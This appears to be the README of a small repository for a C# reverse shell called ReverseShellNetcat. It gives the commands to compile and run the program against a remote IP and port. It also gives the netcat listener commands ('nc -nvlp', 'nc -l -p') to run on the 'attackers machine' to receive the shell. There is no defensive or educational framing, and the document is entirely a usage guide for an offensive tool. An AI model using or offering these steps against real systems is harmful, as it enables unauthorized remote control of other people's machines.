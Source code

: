 # ReverseShell_C-
To execute the reverse shell in terminal run this command 

csc ReverseShellNetcat.cs
ReverseShellNetcat.exe <remote_ip> <remote_port>

To open a listener and get the shell simply run this command in the attackers machine
nc -nvlp <local Port>
or 
nc -l -p <local Port>
